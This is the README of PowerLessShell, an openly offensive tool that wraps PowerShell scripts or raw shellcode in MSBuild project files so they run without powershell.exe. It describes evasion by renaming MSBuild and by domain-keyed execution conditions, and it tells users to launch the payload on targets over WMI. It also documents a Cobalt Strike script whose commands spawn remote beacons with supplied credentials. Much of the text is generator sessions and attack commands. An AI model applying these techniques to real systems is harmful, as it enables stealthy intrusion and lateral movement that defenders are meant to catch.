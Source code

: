 ﻿# PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. 
You can also execute raw shellcode using the same approach.

To add another layer of crap the payload will copy msbuild.exe to something random and build the payload using the randomly generated binary.

* You can provide -knownprocess switch to use known Windows process name instead of renaming MsBuild.exe to something random

# MSBuild conditions 

MSBuild support condition that can be used to avoid running code if the condition is not met.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current user domain is "RingZer0"

Condition supports several other formats that can be used to create more conditional execution check.

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

Property Functions also expose interesting data.

```
https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions
```

# Usage

Raw shellcode
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> shellcode

(Path to the raw shellcode file)>>> shellcode.raw

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>> RingZer0

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Powershell
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> powershell

(Path to the PowerShell script)>>> payload.ps1

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>>

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Inline command
```
python PowerLessShell.py powershell.ps1 output (optional shellcode, -knownprocess)


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"




[+] output was generated.
[+] output.bat was generated.
[+] Run the command inside of output.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) 
By Alyssa (ramen0x3f) and MrT-F
### Set Up
* Either copy PowerLessShell folder to [cobalts working dir]/PowerLessShell or make note of path
* If you didn't copy it to the Cobalt directory: edit the $pls_path variable in this file to point to PowerLessShell
* Load script into Cobalt Strike

### Usage
```
check_msbuild -target TARGET   		Verify .NET 4.0.30319 is installed (should see "Status OK")
	[-user user] [-pass pass]		Windows 7 has .NET 4.0.30319 after 3 reboots and 4 Windows update cycles

rename_msbuild -target TARGET 		Copy MSBuild.exe. 
	-msbuild newname 
 	[-path C:\new\path] 		Default - C:\Users\Public\
	[-user domain\username]		Specifying user/pass spawns cmd on remote host.
 	[-pass password]			

wmi_msbuild -target TARGET 		 	Spawn new beacon. 
         -listener LISTENER
	[-payload new_file]		 	Default - [a-zA-Z].tmp
	[-directory new_dir]			Default - C:\Users\Public\
	[-msbuild alt_msbuild_location] 	
	[-user USERNAME] [-pass PASSWORD]	
	[-manualdelete]				Switch doesn't auto delete payload.
```
### OpSec Notes
Spawns cmd.exe on the target system if
* ManualDelete switch is not set
* rename_msbuild is run with a username/password specified

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

